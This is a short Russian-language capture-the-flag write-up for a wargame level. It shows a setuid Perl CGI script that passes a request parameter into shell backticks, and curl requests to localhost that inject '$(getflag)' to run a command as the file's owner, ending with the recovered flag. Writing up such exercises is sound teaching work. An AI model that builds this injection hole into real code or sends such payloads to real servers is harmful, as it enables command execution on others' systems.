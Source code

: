 	ls -la

	-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
	
Итак, у нас есть какой то скрипт на Перле. У него есть права на запуск с повышением привелегий до пользователя, создавшего файл

	vim level04.pl
	
	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
		$y = $_[0];
		print `echo $y 2>&1`;
	}
	x(param("x"));

Итак, там юзается CGI (https://ru.wikipedia.org/wiki/CGI), а именно qw{param},  получается что мы сверяем занчение, которое подаем с param = "x"
	
Посмотрим, запущен ли у нас какой нибудь веб-сервер

	service --status-all
	[ + ]  apache2

Значит будем пробовать посылать запросы на сервер через curl (http://www.4stud.info/web-programming/cgi.html)(https://ru.hexlet.io/courses/php-mvc/lessons/php-cgi/theory_unit)

	curl localhost:4747/?x='$PATH'

Печатает PATH, работает!

	curl localhost:4747/?x='$(getflag)'

Получаем заветный флаг:

	ne2searoevaevoem4ov4ar8ap
